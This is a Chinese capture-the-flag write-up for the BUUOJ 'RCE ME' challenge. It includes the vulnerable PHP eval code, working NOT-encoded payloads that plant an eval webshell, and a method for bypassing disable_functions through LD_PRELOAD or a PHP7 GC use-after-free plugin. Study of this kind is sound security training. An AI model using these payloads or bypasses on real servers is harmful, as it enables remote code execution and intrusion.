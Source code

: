 # [极客大挑战 2019]RCE ME

[题目地址](https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]RCE%20ME)

```php
<?php
error_reporting(0);
if(isset($_GET['code'])){
            $code=$_GET['code'];
                    if(strlen($code)>40){
                                        die("This is too Long.");
                                                }
                    if(preg_match("/[A-Za-z0-9]+/",$code)){
                                        die("NO.");
                                                }
                    @eval($code);
}
else{
            highlight_file(__FILE__);
}

// ?>
```

一个[无数字字母getshell](https://www.freebuf.com/articles/network/279563.html)题。这种单纯过滤字母数字却没过滤符号的一般有两种思路：异或和取反。需要先确认php的版本，如果是php7以上会比php5方便，因为php7支持`($a)();`这种形式调用。通过服务器返回的包的`X-Powered-By: PHP/7.0.33`，得知是php7。这就简单了，直接构造payload。

```php
<?php 
$a='assert';
$b=urlencode(~$a);
echo '(~'.$b.')';  //~是取反符
$c='(eval($_POST[a]))';
$d=urlencode(~$c);
echo '(~'.$d.');';
//(~%9E%8C%8C%9A%8D%8B)(~%D7%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%9E%A2%D6%D6);
```

然后把下面的url拿去连蚁剑，密码是a。

- http://85f9073d-fe32-42d1-81c9-1f85e8a151c8.node4.buuoj.cn:81/?code=(~%9E%8C%8C%9A%8D%8B)(~%D7%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%9E%A2%D6%D6);

flag怎么看不了？看下phpinfo。

```php
<?php 
$a='phpinfo';
$b=urlencode(~$a);
echo '(~'.$b.')';
echo '();';
//(~%8F%97%8F%96%91%99%90)();
```

- http://85f9073d-fe32-42d1-81c9-1f85e8a151c8.node4.buuoj.cn:81/?code=(~%8F%97%8F%96%91%99%90)();

查找disable_functions，禁了一堆函数。需要绕过被禁用函数，有两种方法。第一种，跟着[wp](https://blog.csdn.net/mochu7777777/article/details/105136633)利用[LD_PRELOAD突破disable_functions](https://www.freebuf.com/web/192052.html)。文章讲得很好，我简述一下原理。当web程序调用系统函数时，如果系统函数在系统共享对象xxx.so中，系统就需要去加载那个so。如果我们可以自己上传一个evil.so，让evil.so里面有web程序想要加载的同名函数且evil.so的加载优先级更高，就能执行任意函数。

那么如何让程序优先加载我们上传的evil.so呢？这就要利用到linux的一个共享库环境变量——[LD_PRELOAD](https://blog.csdn.net/htf15/article/details/8689973)了。现在我们有了劫持系统函数的方法，然而有个问题：想用这个方法劫持系统函数，需要有能力控制 php 启动外部程序才行（只要有进程启动行为即可）。解决办法是php的mail函数，该函数内部会启动/usr/sbin/sendmail、/usr/sbin/postdrop 两个新进程。

一波刚平，一波又起。经常被用于劫持的函数是sendmail，因为这个函数里会调用getuid()，getuid()没啥参数，比较容易劫持。问题又来了，万一要攻击的web服务压根就没开sendmail呢？看来不得不放弃劫持函数 getuid()，找个更普遍的方法。如果能找到一个方式，在加载时就执行代码，而不用考虑劫持某一系统函数，那就完全可以不依赖 sendmail 或是任何其他函数了。这个方法就是GCC的C 语言扩展修饰符 `__attribute__((constructor))`，可以让由它修饰的函数在 main() 之前执行。若它出现在共享对象中时，那么一旦共享对象被系统加载，立即执行 `__attribute__((constructor))` 修饰的函数。

于是我们可以这么干。拿到有禁用函数的webshell后，找到一个有上传权限的目录，上传一个php文件用于获取shell命令，更改LD_PRELOAD以及调用mail函数。再上传一个so文件，里面用`__attribute__((constructor))` 修饰函数，被修饰的函数执行系统命令。这些文件都可以在[此处](https://github.com/yangyangwithgnu/bypass_disablefunc_via_LD_PRELOAD)找到。

或者无脑脚本小子做法。直接打开蚁剑的插件市场，找到“绕过disable_funtions“，在刚刚连接上的shell右键->加载插件->辅助工具->绕过disable_functions。模式选择`PHP7_GC_UAF`再点击开始，就能执行命令了。执行根目录下的readflag，就能获取到flag了。